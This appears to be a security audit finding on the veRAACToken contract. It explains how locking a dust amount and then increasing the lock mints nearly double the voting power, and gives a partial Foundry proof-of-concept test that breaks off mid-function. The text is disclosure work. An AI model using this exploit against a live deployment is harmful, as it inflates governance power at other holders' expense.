 This means that, for given raacToken amount, if you keep `existingLockAmount` to almost zero, and keep `increasedAmount` to total raacToken amount you have, you will mint almost double veToken and voting power.

Consider the following scenario:

* Eve has 100 raacToken
* Eve locks dust amount `1e-18` raccToken to create an initial position
* Eve immediately increases the position by locking the rest of raacToken
* Eve will receive around 200 veToken and 200 voting power

### POC

**Scenario**

POC scenario is similar to the one in the Vulnerability Details section.

To illustrate the vulnerabilty more clearly, POC has two actors: alice and eve

* `alice` locks 100 raacToken and receives 100 veToken and voting power
* `eve` exploits the vulnerability and mints nearly 200 veToken and voting power with the same amount of raacToken

**How to run the POC**

* First, follow the steps in [hardhat-foundry integration tutorial](https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry#adding-foundry-to-a-hardhat-project)
* Then, create a file `test/poc.t.sol` and put the following content and run `forge test poc.t.sol -vvv`:

```solidity
pragma solidity ^0.8.19;

import "../lib/forge-std/src/Test.sol";
import {veRAACToken} from "../contracts/core/tokens/veRAACToken.sol";
import {RAACToken} from "../contracts/core/tokens/RAACToken.sol";

contract veRAACTokenTest is Test {
    RAACToken raacToken;
    veRAACToken veToken;

    address alice = makeAddr("alice");
    address eve = makeAddr("eve");

    uint256 raacTokenAmount = 100e18;

    function setUp() external {
        raacToken = new RAACToken(address(this), 0, 0);
        raacToken.setMinter(address(this));
        veToken = new veRAACToken(address(raacToken));
        veToken.setMinter(address(this));
    }

    function testLockAndIncrease() external {
        // alice just locks 100 raacToken
        _userLocks(alice, raacTokenAmount, veToken.MAX_LOCK_DURATION());
        emit log_named_decimal_uint("alice voting power", veToken.getVotingPower(alice), 18);
        emit log_named_decimal_uint("alice veToken balance", veToken.balanceOf(alice), 18);

        // eve first locks dust amount
        _userLocks(eve, 1, veToken.MAX_LOCK_DURATION());
        // eve then increases the lock position by using rest of the raacToken
        _userIncreases(eve, raacTokenAmount - 1);
        emit log_named_decimal_uint("eve voting power", veToken.getVotingPower(eve), 18);
        emit log_named_decimal_uint("eve veToken balance", veToken.balanceOf(eve), 18);

        // eve has nearly double voting power and veToken balance as alice
        assertGt(veToken.getVotingPower(eve), veToken.getVotingPower(alice));
```